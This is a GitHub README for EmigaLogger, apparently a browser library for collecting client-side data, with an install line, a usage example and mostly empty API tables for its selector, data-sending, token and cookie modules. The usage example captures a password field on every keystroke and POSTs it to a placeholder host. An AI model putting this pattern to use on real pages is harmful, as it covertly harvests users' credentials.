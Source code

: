 <p align="center">
  <img src="demo/demo.png" />
</p>



<h1 align="center">EmigaLogger for Browsers
  
<div align="center" style="display:none !important;text-align:center;">

![GitHub release (latest by date)](https://img.shields.io/github/v/release/eminmuhammadi/EmigaLogger)
![GitHub](https://img.shields.io/github/license/eminmuhammadi/EmigaLogger)
![GitHub file size in bytes](https://img.shields.io/github/size/eminmuhammadi/EmigaLogger/dist/EmigaLogger.min.js)

</div>
</h1>

<p align="center">
EmigaLogger combines several modules to send a valuable client-side information to the database
</p>

## Install
```html
<script type="text/javascript" src="https://cdn.jsdelivr.net/gh/eminmuhammadi/EmigaLogger@v1.0.2/dist/EmigaLogger.min.js"></script>
```

## Usage
```js
const Logger   = new EmigaLogger();
const Data     = new EmigaData();
const Selector = new EmigaSelector();

const Password = Selector.Select('input[name=password]');
Logger.Log(Password,'keydown',()=>{
    Data.Send('https://example.com',{
        method: 'POST',
        body: JSON.stringify({
           password: Selector.Value(Password)
        }) 
    });
});
```
For examples  [./demo/](demo)
- `button`  [./demo/button.html](demo/button.html)
- `example` [./demo/example.html](demo/example.html)
- `form`    [./demo/form.html](demo/form.html)
- `input`   [./demo/input.html](demo/input.html)

## API Reference
### new EmigaLogger()
#### EmigaLogger().Log(query,state,callback)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|
| state     |      	|         	|             	|
| callback  |      	|         	|             	|

#### EmigaLogger.Call(callback)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| callback  |      	|         	|             	|

### new EmigaSelector()
#### EmigaSelector().Select(query)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|

#### EmigaSelector().Submit(element)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| element   |      	|         	|             	|

#### EmigaSelector().Value(element)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| element   |      	|         	|             	|

#### EmigaSelector().Text(element)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| element   |      	|         	|             	|

### new EmigaData()
#### EmigaData().Serialize(form)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| form      |      	|         	|             	|

#### EmigaData().Send(url,options)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| url       |      	|         	|             	|
| options.method         |      	|    `GET`,`POST`,`PUT`,`HEAD`,`DELETE`,`PATCH`,`OPTIONS` |             	|
| options.mode           |      	|   `no-cors`, `cors`, `same-origin`  |             	|
| options.cache          |      	|  `Value`, `no-cache`, `reload`, `force-cache`, `only-if-cached` |             	|
| options.credentials    |      	| `include`, `same-origin`, `omit`        	|             	|
| options.headers        |      	|         	|             	|
| options.redirect       |      	|  `manual`, `follow`, `error` |             	|
| options.referrerPolicy |      	|  `no-referrer`, `client` |             	|
| options.body           |      	|         	|             	|

### new EmigaToken()
#### EmigaToken().uuid()
### new EmigaCookies()
#### EmigaCookies().Get(name)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|

#### EmigaCookies().Set(name,value,options)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|
| value     |      	|         	|             	|
| options.expires   |      	|         	|             	|
| options.path      |      	|   `/` (default)  	|             	|
| options.domain    |      	|         	|             	|
| options.secure    |      	|   `true`, `false`      	|             	|
| options.sameSite  |      	|    `lax`, `strict`     	|             	|

#### EmigaCookie().Delete(name)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|

#### EmigaCookie().Cookie(name,value,days)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	| `X-UUID` (default)  |             	|
| value     |      	|           |             	|
| days     |      	|  `1`  (default)    |             	|

### new EmigaInit(event)
